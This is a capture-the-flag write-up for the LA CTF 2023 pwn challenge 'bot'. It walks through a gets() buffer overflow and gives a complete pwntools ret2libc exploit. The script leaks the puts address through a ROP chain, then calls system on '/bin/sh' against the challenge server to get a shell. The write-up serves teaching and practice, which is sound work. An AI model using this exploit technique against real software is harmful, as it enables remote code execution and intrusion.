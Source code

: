 # bot

[Problem](https://github.com/uclaacm/lactf-archive/tree/master/2023/pwn/bot)

This problem confuses me a little bit. We got the source code, ELF file, and a libc. The source code is the following:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(void) {
  setbuf(stdout, NULL);
  char input[64];
  volatile int give_flag = 0;
  puts("hi, how can i help?");
  gets(input);
  if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
}
```

There is a vulnerable function gets, which allows us to overflow the buffer "input".Then we open the ELF file with IDA.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input[64]; // [rsp+10h] [rbp-40h] BYREF
    //rbp-40h is the distance between "input" and rbp. Note that the "40h" is 0x40.But we don't want to just overflow to rbp; we want to control the return address, so we add 8 (the length of rbp) to reach the return address.
  setbuf(_bss_start, 0LL);
  puts("hi, how can i help?");
  gets(input);
  if ( !strcmp(input, "give me the flag") )
  {
    puts("lol no");
  }
  else if ( !strcmp(input, "please give me the flag") )
  {
    puts("no");
  }
  else if ( !strcmp(input, "help, i have no idea how to solve this") )
  {
    puts("L");
  }
  else if ( !strcmp(input, "may i have the flag?") )
  {
    puts("not with that attitude");
  }
  else
  {
    if ( strcmp(input, "please please please give me the flag") )
    {
      puts("sorry, i didn't understand your question");
      exit(1);
    }
    puts("i'll consider it");
    sleep(0xFu);
    puts("no");
  }
  return 0;
}
```

We can see that it's different with the source code; it doesn't have the variable "give_flag".It's not a big problem, we can still use the technique "Ret2Libc".

```python
from pwn import *
context.log_level='debug'
#p=process("bot")
p=remote("lac.tf",31180)
puts_plt=0x401030
puts_got=0x404018 #Puts_got and puts_plt can be found in IDA.
rdi=0x000000000040133b #"pop rdi ; ret"
main=0x401182
payload=b'give me the flag\x00'.ljust(0x40+8,b'a')+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #The padding needs to have a length of 0x48, which is the distance between "input" and the return address.I put b'give me the flag\x00' in the front, so it won't trigger sleep function and waste time.By the way, the strcmp function only compares two strings until '\x00',so it doesn't matter what we put behind '\x00'.
p.sendlineafter("hi, how can i help?",payload)
puts_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
base=puts_addr-472560 #This offset can be found in the libc file that is given to us, using "libc.symbols['puts']".
system=0x401050
binsh=base+1663314
payload=b'give me the flag\x00'.ljust(0x40+8,b'a')+p64(rdi)+p64(binsh)+p64(system)+p64(main)
p.sendlineafter("hi, how can i help?",payload)
p.interactive()
```

That's how every normal "Ret2Libc" ropchain works. First, we put a padding to fill the buffer and overflow it to the return address.The "p64(rdi)" is now the return address; it will pop the following value "p64(puts_got)" into the rdi register, which is the first parameter of the next calling function. Then we call puts, it will leak the real address of puts. Figure out the base address of the file with some small calculations, and we can finally call the system function to get shell.

For more information of leaking libc address, go to [here](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address).

## Flag
> lactf{hey_stop_bullying_my_bot_thats_not_nice}